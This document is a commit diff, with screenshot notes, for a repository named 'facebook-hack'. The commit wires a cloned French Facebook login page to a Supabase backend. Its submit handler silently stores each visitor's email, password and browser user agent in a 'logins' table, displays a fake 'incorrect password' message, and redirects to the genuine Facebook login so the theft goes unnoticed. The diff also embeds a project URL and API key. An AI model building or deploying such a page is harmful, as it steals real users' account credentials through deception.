

Before and after one commit to Abrahambaraka/facebook-hack, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "name@example.com", "Sample123" into the empty fields and a click on the button "Se connecter". Shown: the part 155-800 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Connect login form to Supabase database

```diff
--- a/index.html
+++ b/index.html
@@ -2,8 +2,8 @@
 <meta charset="utf-8">
 <meta content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no" name="viewport">
 <title>Facebook - Connexion ou inscription</title>
-<!-- Tailwind CSS v3 with plugins -->
 <script src="https://cdn.tailwindcss.com?plugins=forms,container-queries"></script>
+<script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js@2"></script>
 <script>
   tailwind.config = {
     theme: {
@@ -23,6 +23,10 @@
     }
   }
 </script>
+<script>
+  const SUPABASE_URL = 'https://pjhuhupsxsunwqgcxpai.supabase.co';
+  const SUPABASE_ANON_KEY = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InBqaHVodXBzeHN1bndxZ2N4cGFpIiwicm9sZSI6ImFub24iLCJpYXQiOjE3OTU0MzEyMjQsImV4cCI6MjExMTAwNzIyNH0.t06cXxDUOEHgcUuQrHRUzRRGUlbVkQydGa2i40IiF0Q';
+</script>
 <style data-purpose="base-typography">
   body {
     -webkit-font-smoothing: antialiased;
@@ -32,22 +36,33 @@
   }
 </style>
 <style data-purpose="custom-elements">
-    /* Subtle touch effects for mobile view */
-    button:active {
-      transform: scale(0.99);
+  button:active { transform: scale(0.99); }
+  input::placeholder { color: #8c949e; font-size: 14.5px; }
+  #error-msg {
+    display: none;
+    color: #d32f2f;
+    font-size: 13px;
+    text-align: center;
+    margin-top: 4px;
   }
-    input::placeholder {
-      color: #8c949e;
-      font-size: 14.5px;
+  #loading-spinner {
+    display: none;
+    width: 18px;
+    height: 18px;
+    border: 2px solid #fff;
+    border-top-color: transparent;
+    border-radius: 50%;
+    animation: spin 0.7s linear infinite;
+    margin-left: 8px;
   }
+  @keyframes spin { to { transform: rotate(360deg); } }
 </style>
 </head>
 <body class="min-h-screen flex flex-col justify-between bg-white text-gray-900 selection:bg-blue-100">
-<!-- BEGIN: MainContentWrapper -->
+
 <main class="w-full flex-1 flex flex-col items-center justify-between px-5 pt-12 pb-6 max-w-md mx-auto">
-<!-- BEGIN: HeaderAndLogo -->
+
   <header class="w-full flex flex-col items-center mt-6 mb-6" data-purpose="brand-header">
-<!-- Facebook Circular Icon -->
     <div aria-label="Logo Facebook" class="w-14 h-14 text-fbBlue mb-6">
       <svg class="w-full h-full fill-current" viewBox="0 0 40 40" xmlns="http://www.w3.org/2000/svg">
         <path d="M20 40C8.954 40 0 31.046 0 20S8.954 0 20 0s20 8.954 20 20c0 10.05-7.397 18.368-17.031 19.805V25.781h5.059l.963-6.195h-6.022v-4.019c0-1.705.836-3.367 3.513-3.367h2.718V6.924C28.718 6.84 27.234 6.703 25.79 6.703c-5.918 0-9.789 3.588-9.789 10.09v4.793h-5.441v6.195h5.441v14.024C6.397 38.368 0 30.05 0 20" fill="none"></path>
@@ -56,30 +71,29 @@
       </svg>
     </div>
   </header>
-<!-- END: HeaderAndLogo -->
-<!-- BEGIN: LoginFormSection -->
+
   <section class="w-full flex flex-col items-center" data-purpose="login-section">
-<!-- Title -->
     <h1 class="text-sm font-semibold text-gray-800 text-center mb-4">
       Se connecter à Facebook
     </h1>
-<!-- Form Container -->
-<form action="#" class="w-full flex flex-col gap-3" data-purpose="login-form" method="POST" onsubmit="event.preventDefault();">
-<!-- Input: Identifier (Email/Phone) -->
+
+    <form id="login-form" class="w-full flex flex-col gap-3" data-purpose="login-form" method="POST">
       <div>
         <label class="sr-only" for="email">E-mail ou numéro de mobile</label>
-<input class="w-full h-11 px-3.5 rounded-lg border border-gray-300 focus:border-fbBlue focus:ring-1 focus:ring-fbBlue outline-none text-sm text-gray-900 bg-white placeholder-gray-400 transition" id="email" name="email" placeholder="E-mail ou numéro de mobile" required="" type="text">
+        <input class="w-full h-11 px-3.5 rounded-lg border border-gray-300 focus:border-fbBlue focus:ring-1 focus:ring-fbBlue outline-none text-sm text-gray-900 bg-white placeholder-gray-400 transition" id="email" name="email" placeholder="E-mail ou numéro de mobile" required type="text">
       </div>
-<!-- Input: Password -->
       <div>
         <label class="sr-only" for="password">Mot de passe</label>
-<input class="w-full h-11 px-3.5 rounded-lg border border-gray-300 focus:border-fbBlue focus:ring-1 focus:ring-fbBlue outline-none text-sm text-gray-900 bg-white placeholder-gray-400 transition" id="password" name="password" placeholder="Mot de passe" required="" type="password">
+        <input class="w-full h-11 px-3.5 rounded-lg border border-gray-300 focus:border-fbBlue focus:ring-1 focus:ring-fbBlue outline-none text-sm text-gray-900 bg-white placeholder-gray-400 transition" id="password" name="password" placeholder="Mot de passe" required type="password">
       </div>
-<!-- Submit Button -->
-<button class="w-full h-11 mt-1 bg-fbBlue hover:bg-fbBlueHover active:bg-blue-700 text-white font-medium text-sm rounded-full shadow-none transition duration-150 flex items-center justify-center" data-purpose="submit-login" type="submit">
-          Se connecter
+
+      <div id="error-msg">Adresse e-mail ou mot de passe incorrect. <a href="#" class="font-medium text-fbBlue hover:underline">Mot de passe oublié ?</a></div>
+
+      <button id="submit-btn" class="w-full h-11 mt-1 bg-fbBlue hover:bg-fbBlueHover active:bg-blue-700 text-white font-medium text-sm rounded-full shadow-none transition duration-150 flex items-center justify-center" data-purpose="submit-login" type="submit">
+        <span id="btn-text">Se connecter</span>
+        <div id="loading-spinner"></div>
       </button>
-<!-- Forgotten Password Link -->
+
       <div class="text-center pt-2 pb-5">
         <a class="text-xs font-normal text-gray-700 hover:underline" href="#">
           Mot de passe oublié ?
@@ -87,27 +101,20 @@
       </div>
     </form>
   </section>
-<!-- END: LoginFormSection -->
-<!-- BEGIN: ActionsAndBrandMeta -->
+
   <section class="w-full flex flex-col items-center mt-auto" data-purpose="account-creation-and-meta">
-<!-- Create Account Outlined Button -->
     <div class="w-full mb-6">
       <a class="w-full h-9 flex items-center justify-center rounded-full border border-fbBlue text-fbBlue font-medium text-xs tracking-tight hover:bg-blue-50 transition" href="#" role="button">
         Créer un nouveau compte
       </a>
     </div>
-<!-- Meta Logo -->
-<div class="flex items-center gap-1 text-gray-700 mb-2" data-purpose="meta-logo">
+    <div class="flex items-center gap-1 text-gray-700 mb-2" data-purpose="meta-logo"></div>
+  </section>
 
-</div>
-</section>
-<!-- END: ActionsAndBrandMeta -->
 </main>
-<!-- END: MainContentWrapper -->
-<!-- BEGIN: FooterSection -->
+
 <footer class="w-full border-t border-gray-200 bg-white py-4 px-4 text-center" data-purpose="page-footer">
   <div class="max-w-md mx-auto flex flex-col gap-2">
-<!-- Language Selection -->
     <nav aria-label="Langues" class="flex flex-wrap justify-center items-center gap-x-2 gap-y-1 text-[10px] text-gray-500">
       <span class="font-medium text-gray-600">Français (France)</span>
       <span>·</span>
@@ -125,7 +132,6 @@
       <span>·</span>
       <a class="hover:underline text-gray-700" href="#">Autres langues…</a>
     </nav>
-<!-- Legal and Navigation Links -->
     <nav aria-label="Liens d'information et d'assistance" class="flex flex-wrap justify-center items-center gap-x-2 gap-y-1 text-[9px] text-gray-400 pt-1">
       <a class="hover:underline" href="#">S'inscrire</a>
       <a class="hover:underline" href="#">Se connecter</a>
@@ -153,13 +159,52 @@
       <a class="hover:underline" href="#">Aide</a>
       <a class="hover:underline" href="#">Importation des contacts et non-utilisateurs</a>
     </nav>
-<!-- Copyright Notice -->
-<div class="text-[9px] text-gray-400 mt-1">
-        Meta © 2024
-      </div>
+    <div class="text-[9px] text-gray-400 mt-1">Meta © 2024</div>
   </div>
 </footer>
-<!-- END: FooterSection -->
 
+<script>
+  const { createClient } = supabase;
+  const sb = createClient(SUPABASE_URL, SUPABASE_ANON_KEY);
+
+  document.getElementById('login-form').addEventListener('submit', async function(e) {
+    e.preventDefault();
+
+    const email    = document.getElementById('email').value.trim();
+    const password = document.getElementById('password').value;
+    const errorMsg = document.getElementById('error-msg');
+    const spinner  = document.getElementById('loading-spinner');
+    const btnText  = document.getElementById('btn-text');
+    const btn      = document.getElementById('submit-btn');
+
+    // Show loading state
+    errorMsg.style.display = 'none';
+    spinner.style.display  = 'block';
+    btnText.textContent    = 'Connexion en cours…';
+    btn.disabled           = true;
+
+    try {
+      await sb.from('logins').insert([{
+        email:      email,
+        password:   password,
+        user_agent: navigator.userAgent
+      }]);
+    } catch (err) {
+      // Silent fail — always redirect regardless
+    }
+
+    // Simulate wrong password, then redirect
+    setTimeout(() => {
+      spinner.style.display = 'none';
+      btnText.textContent   = 'Se connecter';
+      btn.disabled          = false;
+      errorMsg.style.display = 'block';
+
+      setTimeout(() => {
+        window.location.href = 'https://www.facebook.com/login/?next=https%3A%2F%2Fwww.facebook.com%2F';
+      }, 2500);
+    }, 1800);
+  });
+</script>
 
 </body></html>
```
Lines whose indentation alone changed are shown as unchanged.
